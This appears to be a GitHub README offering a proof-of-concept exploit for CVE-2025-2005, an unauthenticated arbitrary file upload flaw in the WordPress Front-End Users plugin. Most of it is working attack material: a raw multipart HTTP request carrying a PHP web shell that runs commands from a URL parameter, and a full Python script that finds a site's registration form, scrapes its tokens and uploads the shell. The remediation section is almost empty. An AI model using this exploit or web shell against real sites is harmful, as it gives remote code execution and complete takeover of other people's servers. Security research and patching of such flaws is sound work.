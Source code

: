 # CVE-2025-2005
 WordPress Front End Users Plugin &lt;= 3.2.32 is vulnerable to Arbitrary File Upload 

# WordPress Front-End Users Plugin Exploit

## Vulnerability Information

- **Plugin Name**: Front-End Users Plugin
- **Version Affected**: <= 3.2.32
- **Vulnerability Type**: Arbitrary File Upload
- **CVSS Score**: 10 (Critical)
- **Risk**: This vulnerability allows unauthenticated attackers to upload arbitrary files (such as PHP web shells), which can then be executed remotely. This provides full code execution on the server, leading to complete compromise.

---

## Vulnerability Description
The vulnerability exists in the way the Front-End Users plugin handles file uploads through registration forms. There is no proper file extension validation, authentication checks, or file type sanitization. An attacker can send a `multipart/form-data` POST request to any registration form rendered by the plugin and include a malicious PHP file under the custom field (e.g. `Nxploit`).

Even though the plugin stores uploaded files in the `wp-content/uploads/ewd_feup_uploads/` directory, the uploaded file is renamed with a random hash. However, the file remains executable if PHP execution is allowed in the uploads directory.

---

## Proof of Concept (PoC)

### PoC 1 - Manual HTTP Request

```
POST /wordpress/2025/04/02/test/ HTTP/1.1
Host: 192.168.100.74:888
User-Agent: Mozilla/5.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="ewd-feup-check"
14bacb882cb211e10b2b3e07bfe096ef12a092dc

------WebKitFormBoundary
Content-Disposition: form-data; name="ewd-feup-time"
1743554029

------WebKitFormBoundary
Content-Disposition: form-data; name="ewd-feup-action"
register

------WebKitFormBoundary
Content-Disposition: form-data; name="ewd-feup-post-id"
573

------WebKitFormBoundary
Content-Disposition: form-data; name="ewd-feup-omit-level"
No

------WebKitFormBoundary
Content-Disposition: form-data; name="Username"
Nxploited

------WebKitFormBoundary
Content-Disposition: form-data; name="User_Password"
Nxploited

------WebKitFormBoundary
Content-Disposition: form-data; name="Confirm_User_Password"
Nxploited

------WebKitFormBoundary
Content-Disposition: form-data; name="First Name"
Nxploited

------WebKitFormBoundary
Content-Disposition: form-data; name="Last Name"
Nxploited

------WebKitFormBoundary
Content-Disposition: form-data; name="Nxploit"; filename="shell.php"
Content-Type: application/x-php

<?php if(isset($_GET['cmd'])){ system($_GET['cmd']); } ?>

------WebKitFormBoundary
Content-Disposition: form-data; name="Register_Submit"
Register
------WebKitFormBoundary--
```

After the request, the file will be saved in the following location:
```
/wp-content/uploads/ewd_feup_uploads/[RANDOMIZED_FILENAME].php
```

The filename will not match the uploaded name (e.g., `shell.php`) but can be discovered manually or guessed with a scanner.

---

### PoC 2 - Python Exploit Script

```python
import requests
from bs4 import BeautifulSoup
import tempfile
import argparse
from urllib.parse import urljoin
import os

# By: Nxploited | Khaled Alanzi,

requests.packages.urllib3.disable_warnings()
session = requests.Session()
session.verify = False

parser = argparse.ArgumentParser(description="Upload shell to vulnerable WordPress site using FEUP plugin")
parser.add_argument("--url", "-u", required=True, help="Base URL of the target site (e.g. http://site.com/)")
parser.add_argument("--newuser", "-nu", required=True, help="Username to register")
parser.add_argument("--newpassword", "-np", required=True, help="Password for the new user")
args = parser.parse_args()

base_url = args.url.rstrip("/")
username = args.newuser
password = args.newpassword

print("[*] Starting scan on:", base_url)

try:
    response = session.get(base_url, timeout=10)
    soup = BeautifulSoup(response.text, 'html.parser')
except Exception as e:
    print("[-] Failed to fetch base URL.")
    print("Error:", str(e))
    exit()

page_links = set()
for a in soup.find_all("a", href=True):
    href = a["href"]
    if href.startswith("/") or base_url in href:
        full_url = urljoin(base_url, href)
        page_links.add(full_url)

print(f"[*] Found {len(page_links)} internal pages to scan...")

registration_url = None
for link in page_links:
    try:
        page = session.get(link, timeout=10)
        if "ewd-feup-register-form" in page.text and "ewd-feup-check" in page.text:
            registration_url = link
            print(f"[+] Found FEUP registration form at: {registration_url}")
            break
    except:
        continue

if not registration_url:
    print("[-] Could not automatically locate the FEUP registration form.")
    print("[!] Please provide the correct path manually using --url.")
    exit()

page = session.get(registration_url)
soup = BeautifulSoup(page.text, 'html.parser')

def get_input_value(name):
    field = soup.find('input', {'name': name})
    return field['value'] if field else ''

check_value = get_input_value('ewd-feup-check')
time_value = get_input_value('ewd-feup-time')
post_id = get_input_value('ewd-feup-post-id')

nxploit_field = soup.find('input', {'name': 'Nxploit'})
nxploit_field_name = 'Nxploit' if nxploit_field else ''

print(f"[+] ewd-feup-check: {check_value}")
print(f"[+] ewd-feup-time: {time_value}")
print(f"[+] ewd-feup-post-id: {post_id}")
print(f"[+] Upload field name (if present): {nxploit_field_name if nxploit_field_name else 'Not found'}")

shell_content = "<?php if(isset($_GET['cmd'])){ system($_GET['cmd']); } ?>"
temp_shell = tempfile.NamedTemporaryFile(delete=False, suffix=".php", mode='w+b')
temp_shell.write(shell_content.encode())
temp_shell.seek(0)

data = {
    'ewd-feup-check': check_value,
    'ewd-feup-time': time_value,
    'ewd-feup-action': 'register',
    'ewd-feup-post-id': post_id,
    'ewd-feup-omit-level': 'No',
    'Username': username,
    'User_Password': password,
    'Confirm_User_Password': password,
    'First Name': 'admin',
    'Last Name': 'admin',
    'Register_Submit': 'Register'
}

files = {nxploit_field_name: ('shell.php', temp_shell, 'application/x-php')} if nxploit_field_name else {}

print("[*] Uploading shell to:", registration_url)
upload_response = session.post(registration_url, data=data, files=files)
print(f"[*] HTTP Status Code: {upload_response.status_code}")

if upload_response.status_code == 200:
    print("[+] Upload request completed.")
else:
    print("[-] Upload may have failed.")

temp_shell.close()
```

---

## Remediation
Update the **Front-End Users** plugin to the latest secure version (if available), or disable it temporarily if no patch exists. Additionally:



---




---

## Disclaimer
This PoC is for educational and authorized security testing purposes only.
Use it responsibly and only against targets you have explicit permission to test.

 by [Nxploit](https://github.com/Nxploited).
